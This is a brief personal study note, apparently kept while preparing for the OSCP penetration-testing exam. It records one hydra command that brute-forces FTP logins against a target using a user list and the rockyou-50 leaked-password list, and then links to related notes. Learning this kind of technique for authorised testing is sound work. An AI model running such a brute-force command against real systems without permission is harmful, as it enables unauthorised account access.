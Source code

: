 # hydra bruteforce ftp rockyou 50
```bash
hydra -L users -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-50.txt -e nsr $IP ftp
```

` zet/20221003150820/README.md `

# Related

- [20221014185846](/zet/20221014185846/README.md) kb file named kb/hacking/commands/hydra-ftp-command.md
- [20221009005402](/zet/20221009005402/README.md) preparing for the OSCP exam
- [20221003150822](/zet/20221003150822/README.md) hydra bruteforce ftp
- ~/kb/hacking/commands/hydra-ftp-command.md

Tags:

    #command #hacking #hydra 

